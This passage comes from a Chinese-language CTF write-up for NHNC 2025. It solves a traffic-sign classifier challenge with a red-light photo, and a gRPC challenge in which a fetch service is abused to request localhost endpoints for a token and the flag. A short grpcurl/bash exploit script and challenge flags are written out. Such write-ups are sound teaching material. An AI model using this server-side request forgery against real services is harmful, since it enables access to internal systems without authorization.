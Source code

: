 ```txt
YOLOv8 classes: {0: 'Green Light', 1: 'Red Light', 2: 'Speed Limit 10', 3: 'Speed Limit 100', 4: 'Speed Limit 110', 5: 'Speed Limit 120', 6: 'Speed Limit 20', 7: 'Speed Limit 30', 8: 'Speed Limit 40', 9: 'Speed Limit 50', 10: 'Speed Limit 60', 11: 'Speed Limit 70', 12: 'Speed Limit 80', 13: 'Speed Limit 90', 14: 'Stop'}
YOLOv10 classes: {0: 'Green Light', 1: 'Red Light', 2: 'Speed Limit 10', 3: 'Speed Limit 100', 4: 'Speed Limit 110', 5: 'Speed Limit 120', 6: 'Speed Limit 20', 7: 'Speed Limit 30', 8: 'Speed Limit 40', 9: 'Speed Limit 50', 10: 'Speed Limit 60', 11: 'Speed Limit 70', 12: 'Speed Limit 80', 13: 'Speed Limit 90', 14: 'Stop'}
```

上網搜尋`Red traffic light photo`，找隨便一張紅燈的照片，上傳到`http://chal.78727867.xyz:5000/`

![Pasted%20image%2020250706085259.png](/assets/NHNC2025/Pasted%20image%2020250706085259.png)

第一次碰到 CNN 的題目，我感覺是矇到的

```txt
NHNC{you_kn0w_h0w_t0_d0_adv3rs3ria1_attack}
```

### Let's Cook Some Delicious Goose

因為題目給了一個 `fetch.proto`，還有 `flag.py`，先去 `.pcapng` 找 http2 (因為有 gRPC)

![Pasted%20image%2020250706124658.png](/assets/NHNC2025/Pasted%20image%2020250706124658.png)

![Pasted%20image%2020250706124739.png](/assets/NHNC2025/Pasted%20image%2020250706124739.png)

可以知道 gRPC endpoint 是 `chal.78727867.xyz:6666`

![Pasted%20image%2020250706125225.png](/assets/NHNC2025/Pasted%20image%2020250706125225.png)

然後 port 是 80

先用題目給的 `fetch.proto` 拿 token

```bash
./grpcurl.exe -plaintext -proto fetch.proto -d '{"url":"http://localhost:80/to
ken"}' chal.78727867.xyz:6666 fetch.FetchService/FetchURL
{
  "content": "38efecc77147aca836988316b55c7eb28c5c1698fb435744f5d9d075dfab4a0e"
}
```

取得正確回應，確認 port 是 80

```bash
#!/bin/bash

echo "[*] Getting token..."
token=$(./grpcurl.exe -plaintext -proto fetch.proto -d '{"url":"http://localhost:80/token"}' chal.78727867.xyz:6666 fetch.FetchService/FetchURL | jq -r '.content')

echo "[*] Got token: $token"
echo "[*] Posting token to get flag..."

./grpcurl.exe -plaintext -proto fetch.proto -d "{
  \"url\": \"http://localhost:80/flag\",
  \"method\": \"POST\",
  \"body\": \"token=$token\",
  \"headers\": {\"Content-Type\": \"application/x-www-form-urlencoded\"}
}" chal.78727867.xyz:6666 fetch.FetchService/FetchURL

```
